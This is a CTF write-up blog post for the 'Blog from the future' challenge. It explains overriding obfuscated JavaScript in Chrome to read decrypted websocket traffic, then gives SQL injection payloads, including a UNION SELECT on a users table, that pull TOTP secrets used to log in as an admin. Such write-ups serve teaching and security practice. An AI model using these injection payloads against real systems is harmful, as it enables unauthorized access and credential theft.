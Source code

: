 ```yaml
---
title: "Overriding JS to Perform SQL Injection (Housecat RTCP CTF Writeup: Blog from the future)"
date: 2020-04-26T19:59:05+05:30
draft: false
categories:
 - CTF Writeups
 - Housecat RTCP CTF
tags:
 - web-ctf
 - housecat-rtcp-ctf
---
```


The TL;DR of this challenge was SQL injection and overriding javascript (to skip the `encrypt`/`decrypt` functions).

## Challenge

**Challenge Name:** Blog from the future

**Challenge Description:**

> My friend Bob likes sockets so much, he made his own blog to talk about them. Can you check it out and make sure that it's secure like he assured me it is?
[Link](http://challs.houseplant.riceteacatpanda.wtf:30003)

## Solution

### JS Overriding

Rule #1 of web CTFs: ALWAYS check robots.txt first! This time I found:
```
User-Agent: *
Disallow: /admin
```

And in [/admin](http://challs.houseplant.riceteacatpanda.wtf:30003/admin) there is a comment saying you need to use TOTP (Time Based OTP. Who does not use a TOTP for 2-factor authentication in 2020?)

Okay, so back to the home page. It was using websockets to fetch blog posts. On Inspect-Elementing/View-Sourcing you find [main.js](http://challs.houseplant.riceteacatpanda.wtf:30003/js/main.js) which is obfuscated. I just used the default Prettifier in Chrome (the `{}` button in Sources tab) to deobfuscate it.

According to the Network tab, the packets were encrypted:
![Encrypted Data](/images/encrypted-network-houseplant.png)

I was going to rewrite the `encrypt` and `decrypt` functions in Python but that would've wasted a lot of time. So I just decided to override JS instead.

You have to enable overriding support first in Google Chrome (no idea about Firefox, I don't use it), and [here is the official guide](https://developers.google.com/web/updates/2018/01/devtools#overrides).

Then, you need to right click on the tab (`main.js` in this case) and you'll see `Save for overrides`. Press that, and you're ready!

While overriding, `console.log()` is your friend. Use it everywhere and see what's happening. I saw a function that decrypted the received data and I added my `console.log()` there:
```
const e = JSON.parse(i.utils.utf8.fromBytes(i.padding.pkcs7.strip(u.decrypt(t))));
console.log(e);
```
![Console Output](/images/console-output-hprtcpctf.png)

Cool! Now it printed everything! Now, I had to modify the sent requests. Just below the above line, there was:
```
if ("success" === e) {
    const t = parseInt(window.location.hash.substr(1));
    if (!isNaN(t))
        return r.send(o.encode(["getPost", t]));
    r.send(o.encode("listPosts"))
    }
}
```

And I found just what I wanted: a method to send data. In this case, it was getting the post ID from the URL, and sending that to get the post. Time for SQL Injection!

### SQL Injection

To ensure I could do a  SQL Injection attack, I made it:
```
r.send(o.encode(["getPost", "1 OR 5=5;--"]));
```

And yes, it worked! I got all the posts on the site. Output of `console.log`:
```
(3) ["post", "1 OR 2=2;--", Array(2)]
0: "post"
1: "1 OR 2=2;--"
2: Array(2)
    0: {id: 1, title: "Welcome to the future!", author: 1, text: "I finally upgraded my blog to use the tech of the …to be truly able to call my blog "futuristic". :/", postDate: 1580857200000, …}
    1: {id: 2, title: "A review of American sockets", author: 1, text: "They're pretty cool, in my opinion.", postDate: 1580947200000, …}
    __proto__: Array(0)
length: 3
__proto__: Array(0)
```

Explanation: I assumed the SQL statement was something like `SELECT * FROM posts WHERE id=<ID HERE>`.
So, my input made it: `SELECT * FROM posts WHERE id=1 OR 5=5;--`. Select everything from table posts where ID is 1 or 5=5 (which evaluates to True), aka fetch all posts. `;--` skips whatever is at the end, and terminates the query.

After that, I used `UNION` to join another `SELECT` query to get user information. In `UNION`, you have to make sure the number of columns match and hence the `1,1` thing:
```
r.send(o.encode(["getPost", "1 OR 2=2 UNION SELECT *,1,1,0 from users;--"]));
```

I didn't find `users` table or `*,1,1,0` on first attempt. It took like 20-30 attempts to get it right.

First I did `UNION SELECT 1,1,1,1,1,1` but that didn't work cause the last variable `hidden` was `1`, and it didn't return that. `UNION SELECT 1,1,1,1,1,0` returned what was expected.
Then I tried to get table names from `information_schema.tables` but that wasn't working. I tried to use some "common" table names and `users` worked. Then I did `UNION SELECT *,0 from users;--`, and kept adding `,1` till it worked. (Remember, `UNION` means same number of columns)

Here was the output:
```
(3) ["post", "1 OR 2=2 UNION SELECT *,1,1,0 from users;--", Array(4)]
0: "post"
1: "1 OR 2=2 UNION SELECT *,1,1,0 from users;--"
2: Array(4)
    0: {id: 1, title: "Welcome to the future!", author: 1, text: "I finally upgraded my blog to use the tech of the …to be truly able to call my blog "futuristic". :/", postDate: 1580857200000, …}
    1: {id: 1, title: "alice", author: "J5YD4O2BIZYEMVJYIY3F24S3GQ2VC3ZTKJQVW5JFJUYHKODXORQQ", text: 1, postDate: 1, …}
    2: {id: 2, title: "A review of American sockets", author: 1, text: "They're pretty cool, in my opinion.", postDate: 1580947200000, …}
    3: {id: 2, title: "bob", author: "IE3V2RR4HRLUEOBDLVCWCQTYF5LT6RTCONNDMULGGJGS4STUMYWA", text: 1, postDate: 1, …}
    length: 4
    __proto__: Array(0)
length: 3
__proto__: Array(0)
```

I took the TOTP secret key for `bob` and plugged it into a [TOTP Generator](https://totp.danhersam.com/).

On the admin page, I Inspect-Elemented, and uncommented the TOTP input field and deleted password field. After entering the username (`bob`) and the generated TOTP, I was able to log in and get the flag.

Flag is: `rtcp{WebSock3t5_4r3_SQLi_vu1n3r4b1e_t00_bacfe0}`. GGWP.

## Conclusion

It greatly helps SQL injection if you can create a local SQL table on your end and try creating SQL statements that work.

And, it's sometimes far more efficient to override javascript than to manually simulate requests (using `curl`/`python`) like many beginners do.

Ask me in the comments for any issues! And thanks jammy for the challenge!